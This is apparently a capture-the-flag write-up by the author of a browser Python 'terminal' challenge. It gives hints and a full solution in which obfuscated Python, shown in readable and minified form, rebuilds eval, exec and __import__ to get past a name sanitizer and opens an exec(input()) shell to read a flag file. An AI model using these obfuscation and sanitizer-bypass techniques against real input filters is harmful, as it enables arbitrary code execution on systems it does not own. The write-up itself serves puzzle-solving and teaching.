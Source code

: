 08/06/2024 17:00
[TAGS] python-golf gray
# Terminal Challenge

A writeup for the <DiscreetLink href='https://terminal.danielc.rocks'>hangman</DiscreetLink> challenge on my homepage. As far as I know it's a completely original challenge; if anything I'm proud of the implementation and how real the terminal feels. The core idea came from talking with a friend about writing a python file that sanitizes to a fixed string, reminiscent of <DiscreetLink href='https://en.wikipedia.org/wiki/Quine_(computing)'>quines</DiscreetLink>.

## Hint 1
<Spoiler>
The hangman game really is <ProminentLink href='https://youtu.be/le5uGqHKll8?t=550'>unbeatable</ProminentLink>. The goal of the challenge is to take advantage of the name loading and use that to read the flag.
</Spoiler>

## Hint 2
<Spoiler>
Look at the name verification function. If we can write some python code that sanitizes to `ErroryournamedoesntseemtobevalidIllcallyouMrUnimportant`, then we can input that as the name and it will pass the verification and thus be written to a file. Then we can run that file just like we ran `game.py`.

<br/>
So the goal is: write a python file that reads `/flag.txt`, whose alphanumeric characters in order are `Erroryour...`.
</Spoiler>

## Hint 3
<Spoiler>
Can you spot any python keywords in the sanitized error message? Research the built-in python functions and see which ones might be useful.

<br/>

We can have variables because underscores are allowed in python variable names.
Also we have numbers, by doing something like:

```py
_ = '' < '_' # one (compares ascii values)
__ = _+_+_+_ # four
___ = __*__ # sixteen
```
</Spoiler>

## Solution
<Spoiler>
What follows is one possible solution, that allows arbitrary code execution with a shell, so in particular you can read the flag file. Can you come up with an alternative?

<br/>

For readability, I've named all variables something representative, but they can all be replaced with underscores (see the minified version). The solution uses a <ProminentLink href='https://github.com/clemg/pythongolfer?tab=readme-ov-file#3---qa'>trick</ProminentLink> of encoding a utf-8 string in utf-16 to garble it.

__COPIABLE__
```py
'Erroryo'
U,R,N = 'urn'
'amedoesn'
T,S = 'ts'
'eemtob'
EVAL = eval
STR = EVAL(S+T+R)
I,D = 'id'
DIR = EVAL(D+I+R)
'IllcallyouMrUn'
ONE = ''<'_'
SEVEN = ONE+ONE+ONE+ONE+ONE+ONE+ONE
BUILTINS = STR(EVAL)[ONE:SEVEN-ONE]+I+N+S
FUNCS = DIR(EVAL('__import__("'+BUILTINS+'")'))
'ant'

EXEC = FUNCS[-SEVEN*SEVEN-ONE-ONE]
BYTES = FUNCS[-SEVEN*SEVEN-SEVEN-SEVEN-ONE-ONE]

# the garbage characters are a utf16 encoding of the utf8 shellcode, the decoded version is:
# while True: exec(input());

SHELLCODE = BYTES+'("桷汩⁥牔敵›硥捥椨灮瑵⤨㬩","'+U+STR(SEVEN+SEVEN+ONE+ONE)+'")['+STR(ONE+ONE)+':]'

EVAL(EXEC+'('+SHELLCODE+')')
```

<br/>

<div className='inline'>
And the minified version:
</div>

__COPIABLE__
```py
'Erroryo';________,_____,_________='urn';'amedoesn';__________,______='ts';'eemtob';___=eval;____,___________='id';'IllcallyouMrUn';_=''<'_';__=_+_+_+_+_+_+_;___((____________:=___(___________+____+_____)(___('__import__("'+(_______:=___(______+__________+_____))(___)[_:__-_]+____+_________+______+'")')))[-__*__-_-_]+'('+____________[-__*__-__-__-_-_]+'("桷汩⁥牔敵›硥捥椨灮瑵⤨㬩","'+________+_______(__+__+_+_)+'")['+_______(_+_)+':]'+')');'ant'
```
</Spoiler>


## FAQs

<div className="flex flex-col divide-y divide-border-strong">
    <details className="faq-question">
        <summary>How did you get Python to run in the browser???</summary>
        <div>
            I talked to my comp-sci teacher who helps run this <DiscreetLink href='https://www.pythonsponge.com/'>educational tool</DiscreetLink> - and he told me about how they use <DiscreetLink href='https://pyodide.org/en/stable/'>Pyodide</DiscreetLink> and a <DiscreetLink href='https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Using_web_workers'>web worker</DiscreetLink>. So I implemented that.
        </div>
    </details>
    <details className="faq-question">
        <summary>This is all client-side, so shouldn't I be able to cheese the flag by just looking in F12?</summary>
        <div className="space-y-2">
            <p>
                Indeed there used to be a cheese solution by just going into F12 and realising that <code>init.py</code> contained the flag (thanks @xp3dx) - but I moved it &gt;:)
            </p>
            <p>
                I have no idea if the flag is still accessible like this because I don't know enough about Next.js, but I will tell you that in my Next.js app it's in <code>components/challenge.js</code> - feel free to try and hunt for it in whatever obsfucated garbage Next.js gives you...
            </p>
        </div>
    </details>
</div>